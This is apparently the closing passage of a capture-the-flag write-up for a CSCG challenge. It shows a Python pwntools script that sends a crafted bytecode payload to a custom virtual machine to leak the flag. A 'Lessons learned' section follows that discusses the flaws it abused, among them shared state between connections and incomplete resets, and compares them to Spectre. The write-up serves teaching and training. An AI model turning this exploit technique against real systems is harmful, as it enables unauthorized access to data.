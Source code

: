 ```python
# store flag and flush cache
for i in range(5):
    payload += b"S" + pule(heap + 0x100 * i)

payload += b"." * 3

label_b = pc + len(payload)

# :B
# load stored flag
payload += b"L" + pule(heap)

# mov r0, r1
payload += b">"

# IOwrite
payload += b"#o"

# NOPs
payload += b"." * 10

p = remote("XXXXXXXXX-vm.challenge.master.cscg.live", 31337, ssl=True)

p.recvuntil(b"Give me your code in hex:")
p.sendline(payload.hex().encode())

time.sleep(0.1)
p.send(pule(label_b))

print(p.recv(4))
```

# Lessons learned

The challenge design obviously  does not reflect a real implementation and apart from our observations, there are other flaws. Nevertheless, we can at least try to provide solutions for the flaws we abused. First of all, it was also possible to start two connections and have the VMs share their files and memory, thus enabling a trivial attack. This could be fixed by using unique files. Secondly, a reset must ensure to reset the complete state, this includes the memory written to disk. This is a non-trivial task and we do not see a simple solution without major reworks. Thirdly, the validation loop should also verify the executions on a reset. Arguably, this will lead to problems if the validity depends on the input, so again, there is no quick and easy fix.

Overall this challenge shows that speculative execution and similar means are difficult to implement safely, as shown by real-world attacks such as Spectre.

[CSCG]: https://cscg.de/